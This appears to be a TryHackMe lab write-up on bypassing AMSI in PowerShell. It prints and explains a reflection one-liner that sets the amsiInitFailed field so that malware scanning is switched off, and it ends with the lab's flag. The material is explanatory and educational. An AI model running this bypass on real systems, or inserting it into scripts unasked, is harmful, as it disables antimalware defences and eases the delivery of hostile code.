 PowerShell reflection can be abused to modify and identify information from valuable DLLs.

The AMSI utilities for PowerShell are stored in the `AMSIUtils` .NET assembly located in `System.Management.Automation.AmsiUtils`.

Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

To explain the code functionality, we will break it down into smaller sections.

First, the snippet will call the reflection function and specify it wants to use an assembly from `[Ref.Assembly]` it will then obtain the type of the AMSI utility using `GetType`.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

The information collected from the previous section will be forwarded to the next function to obtain a specified field within the assembly using `GetField`.

```powershell
.GetField('amsiInitFailed','NonPublic,Static')
```

The assembly and field information will then be forwarded to the next parameter to set the value from `$false` to `$true` using `SetValue`.

```powershell
.SetValue($null,$true)
```

Once the `amsiInitFailed` field is set to `$true`, AMSI will respond with the response code: AMSI_RESULT_NOT_DETECTED = 1

## Practical

---

We need to run:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![[Pasted image 20250522120659.png]]

We will get a flag-1 file in our desktop:

![[Pasted image 20250522120723.png]]

```
THM{r3fl3c7_4ll_7h3_7h1n65}
```
